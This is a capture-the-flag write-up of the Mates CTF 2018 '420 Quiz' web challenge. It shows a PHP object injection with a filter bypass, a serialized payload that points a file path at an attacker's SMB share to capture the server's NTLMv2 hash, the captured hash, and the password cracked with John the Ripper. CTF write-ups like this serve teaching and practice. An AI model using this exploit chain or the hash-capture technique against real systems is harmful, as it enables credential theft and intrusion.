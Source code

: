 ```yaml
---
layout: post
title:  "Mates CTF 2018 - 420 Quiz"
date:   2018-06-18 13:37
categories: [MatesCTF2018]
tags: [Web]
author: jbz
---
```


This challenge was a cool real world scenario and we were the only team to solve it, so it's a good excuse to do a writeup.

The challenge question was just an URL, after you visit it you can signup with username and email and start a quiz.

Among the quiz questions there were these two interesting strings:
```
Relax, here is the hint: [admin]
Great, here is the second hint: [source_882c1aaf3.zip]
```

Visiting `/admin` presented us a login page with a comment which allowed us to understand that the authentication was using `LDAP`.

In the `source_882c1aaf3.zip` we found the source code of all non admin pages: [index.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/index.php), [lib.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quihttps://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/lib.php) and [quiz.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quihttps://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/quiz.php).

After a quick analysis we discovered a PHP Object Injection in [quiz.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/quiz.php):
```
    if(isset($_POST['answer'])){

        $answer = (string)$_POST['answer'];
        $ck = base64_decode($_COOKIE['userinfo']);
        if(preg_match('/O:[0-9]+:"/',$ck)){ //Filter we need to bypass
            header("Location: quiz.php");
            die();
        }
        $userinfo = unserialize($ck); //Object Injection

        if(intval($_COOKIE['quiz_no']) > 19){
            $quiz = 'Each user needs to answer only 20 quizs! Please wait for response from us.';
        } elseif(is_array($userinfo)) {
            $tmp = new SaveAnswer($userinfo['username'],$userinfo['email'],$answer.PHP_EOL);
            $quiz = make_quiz($_COOKIE['quiz_no'], True);
        } else {
            die("Cannot get userinfo");
        }

    } else {
        $quiz = make_quiz($_COOKIE['quiz_no']);
    }
```

As you can see there is a filter we need to bypass to exploit it, as they are trying to prevent unserialization of PHP objects:
```
preg_match('/O:[0-9]+:"/',$ck)
```

However this filter can be bypassed by replacing the object length with a signed number (i.e. `O:5:"Class":1:{s:5:"param";s:5:"value";}` becomes `O:+5:"Class":1:{s:5:"param";s:5:"value";}`)

Now it's just a matter of finding the right object to unserialize to do some magic.

In [lib.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/lib.php) we had an handy class which was included in [quiz.php](https://github.com/jbzteam/CTF/blob/master/MatesCTF2018/Quiz/quiz.php):
```
    class SaveAnswer {
        private $folder = 'C:\\Windows\\Temp\\';
        private $filename;
        private $anscontent;

        public function __construct($username, $email, $ans)
        {
            $this->filename = $username.'_'.str_replace(['@','.',' '],'_',$email);
            $this->anscontent = (string)$ans;
        }

        private function writeToFile($mode){
            $fullpath = $this->folder.$this->filename;

            if(!file_exists($fullpath.'.txt')){
                if(!preg_match('/^C:\x5cWindows\x5cTemp\x5c[a-zA-Z0-9\.\_]+$/i',$fullpath)){
                    return False;
                }
            }

            try{
                $file = fopen($fullpath.".txt", $mode);
                fwrite($file, $this->anscontent);
                fclose($file);
            } catch(Exception $e){
                return False;
            }
            return True;
        }

        public function __destruct()
        {
            $this->writeToFile("a+");
        }
    }
```

Cool, a class on a Windows Server which allowed us to write to a file and we could use the PHP Object Injection to instantiate this class with arbitrary parameters.

### LET'S DANCE SAMBA ###

Windows has a very cool feature, when you try to access a link like `\\ip\file` it is so nice to send the NTLM hash of the current user along with the request to try to login via Samba, so what if we try to exploit the PHP Object Injection and request a file via Samba from our server and log the NTLM hash?

To build the right serialized object we used the following PHP code:
```
<?php

class SaveAnswer {
        private $folder = '\\\\our_ip_here\\';
        private $filename = 'jbz';
        private $anscontent = 'jbz';

        public function __construct($username, $email, $ans)
        {
            $this->filename = $username.'_'.str_replace(['@','.',' '],'_',$email);
            $this->anscontent = (string)$ans;
        }
    }
  
$exp = new SaveAnswer('jbz','jbzteam@outlook.com','jbz');

echo base64_encode(str_replace("O:","O:+",serialize($exp)));
```

After sending a request to `quiz.php` with the generated payload in the `userinfo` cookie, we received this in our [Responder](https://github.com/SpiderLabs/Responder) server.


```
[SMB] NTLMv2-SSP Client     : 35.185.189.153
[SMB] NTLMv2-SSP Username   : QUIZSERVER0\r0cky0u
[SMB] NTLMv2-SSP Hash       : r0cky0u::QUIZSERVER0:1122334455667788:11726B453AFF097DBE050E3BB1386C7F:0101000000000000E0B28CD37405D401C3BA5E9BF5910DCE0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000000136927FA8611B32A37F4FD804F2D5B215872D9A9CC975CDDDE475B9AEBE2C000A001000000000000000000000000000000000000900200063006900660073002F0035002E0039002E003100310033002E003200310036000000000000000000
```

Now it was just a matter of launching [John The Ripper](https://github.com/magnumripper/JohnTheRipper) with the [rockyou wordlist](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2) and wait the admin password to appear and use it to login in the admin panel.

```
$ john --wordlist=/tmp/rockyou.txt /tmp/SMB-NTLMv2-SSP-35.185.189.153.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
BENGIjake=06     (r0cky0u)
1g 0:00:00:09 DONE (2018-06-18 19:13) 0.1023g/s 1167Kp/s 1167Kc/s 1167KC/s BIMBONA..BANDSTER
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Congratulation the flag is: `matesctf{1df0d456589907360141240ec0d4fb71cd36f1fc}`
